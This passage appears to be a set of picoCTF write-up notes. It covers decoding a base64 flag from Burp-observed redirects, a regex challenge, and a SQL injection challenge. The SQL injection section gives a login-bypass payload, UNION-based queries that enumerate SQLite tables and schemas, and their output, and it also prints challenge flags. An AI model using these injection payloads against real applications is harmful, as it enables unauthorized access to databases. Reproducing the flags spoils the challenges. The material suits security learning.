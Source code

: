 use burp to observe login activity

found 3 redirects: `/login` -> `/next-page/id=cGljb0NURntwcm94aWVzX2Fs` -> `/next-page/id=bF90aGVfd2F5XzQ4YzQ3YTk1fQ==` -> `/home`

found that the middle 2 redirect has title `flag`, so it is important

the page id seems like base64 string. just decode it

`picoCTF{proxies_all_the_way_48c47a95}`

### MatchTheRegex

enter `picoCTF{.*}`

`picoCTF{succ3ssfully_matchtheregex_04010049}`

### More SQLi

use `' or 1=1 -- #` hack into login page

got a search office function, seems that it may have SQL injection issue again (and it may be using `LIKE`)

found that `%' or 1=1 -- #` works

using union select `%' union select 1,2,3 -- #` found that there will use 3 column as select query

next, we have to get table names and column names

by hint, it use sqlite as db, so we don't have to find this information

[useful reference](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

use `%' union select tbl_name,2,3 FROM sqlite_master WHERE type='table' -- #` to find that there are 4 tables in databases

```
hints	2	3
more_table	2	3
offices	2	3
users	2	3
```

use `%' union select sql,2,3 FROM sqlite_master WHERE name='hints' -- #` to get column of table

columns from `hint`:

```
CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)	2	3
```

columns from `more_table`:

```
CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)	2	3
```

read content of `hint` (`%' union select id,info,3 FROM hints -- #`)

```
1	Is this the real life?	3
2	Is this the real life?	3
3	You are close now?	3
```

